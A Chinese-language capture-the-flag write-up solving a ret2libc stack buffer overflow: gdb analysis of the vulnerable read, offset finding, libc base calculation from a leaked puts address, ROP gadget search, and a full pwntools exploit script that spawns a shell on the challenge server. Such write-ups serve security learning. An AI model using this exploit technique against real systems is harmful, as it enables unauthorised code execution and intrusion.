- 下载附件并通过gdb进行分析：
    

- 查看main函数：
    
    可以看到地址`0x402016`是`main`开始的位置，而`0x40202b`是`main`结束的位置，并且调用了`vuln`函数

- 查看vuln函数：
    
    可以看到程序通过打印`Input something: `提示用户进行内容输入。汇编中`mov edx,0x200`将read的读取长度设置为 0x200（512 字节），随后`call 0x401090 <read@plt>`调用read从标准输入读取数据到栈缓冲区

    通过对栈帧结构分析：函数开头`push rbp`保存的旧 rbp 占 8 字节，后续`mov rbp,rsp`建立新栈帧，`sub rsp,0x40`为局部变量分配了 0x40（64 字节）的栈缓冲区。因此，从缓冲区起始到返回地址的偏移量为 0x40 + 8 = 0x48（72 字节）

    很明显，read允许读取的 512 字节远大于缓冲区本身的 64 字节，输入数据会溢出缓冲区，依次覆盖旧 rbp，最终覆盖到函数的返回地址

    从缓冲区起始到返回地址的偏移量也可以通过如下方式进行判断

- cyclic构造payload并发送：
    
    
    可以看到通过cyclic验证偏移量确实是72字节
    
- 通过`got`命令查询GOT表中已经加载的任意函数在内存中的绝对地址：
    
    以puts为例，puts在内存中的绝对地址是`0x7ffff7c80e50`

- 通过`vmmap`查询 puts 绝对地址所属的文件范围，找到该程序依赖的libc文件：
    
    可以看到已经拿到了该程序依赖的libc文件

- 在该libc文件中查询puts函数的偏移地址：
    ```bash
    gdb -q /usr/lib/x86_64-linux-gnu/libc.so.6
    p puts
    ```
    
    拿到puts函数的偏移地址：`0x80e50`，所以相减即可得到基地址：`0x7ffff7c00000`
    
- 获取`system`和`/bin/sh`的偏移：
    ```bash
    objdump -d /usr/lib/x86_64-linux-gnu/libc.so.6 | grep "__libc_system"
    strings -a -t x /usr/lib/x86_64-linux-gnu/libc.so.6 | grep "/bin/sh"
    ```
    
    通过偏移不难算出绝对地址：`system：0x7ffff7c50d70、/bin/sh：0x7ffff7dd8678`

- 获取`pop rdi`地址：
    ```bash
    ROPgadget --binary ./pwn | grep "pop rdi"
    ```
    
    `注意：获取pop rdi; ret地址的目的是为了在64位程序里通过ROP链调用libc函数（如system）时，能够正确设置第一个参数。因为64位调用约定使用寄存器传参，第一个参数必须放在rdi中，而pop rdi; ret这个gadget可以让我们从栈上弹出一个值（比如字符串/bin/sh的地址）存入rdi，然后执行ret继续下一条ROP指令，从而顺利调用system("/bin/sh")获取shell`

- EXP：
    ```python
    from pwn import *

    padding = 0x48
    pop_rdi_ret = 0x40119e
    ret_addr = 0x40101a

    p = remote("nc1.ctfplus.cn", 38170)
    # p = process("./pwn")
    elf = ELF("./pwn")
    libc = ELF("./libc.so.6")


    p.recvuntil(b"Input something: ")
    hello = b"A"*padding + p64(pop_rdi_ret) + p64(elf.got.puts) + p64(elf.plt.puts) + p64(elf.sym.main)
    p.send(hello)


    p.recv(padding)
    puts = u64(p.recv(6).ljust(8, b"\x00"))


    libc_base = puts - libc.sym.puts
    system = libc_base + libc.sym.system
    binsh = libc_base + next(libc.search(b"/bin/sh"))


    p.recvuntil(b"Input something: ")
    payload = b"A"*padding + p64(pop_rdi_ret) + p64(binsh) + p64(ret_addr) + p64(system)
    p.send(payload)

    p.interactive()
    ```
    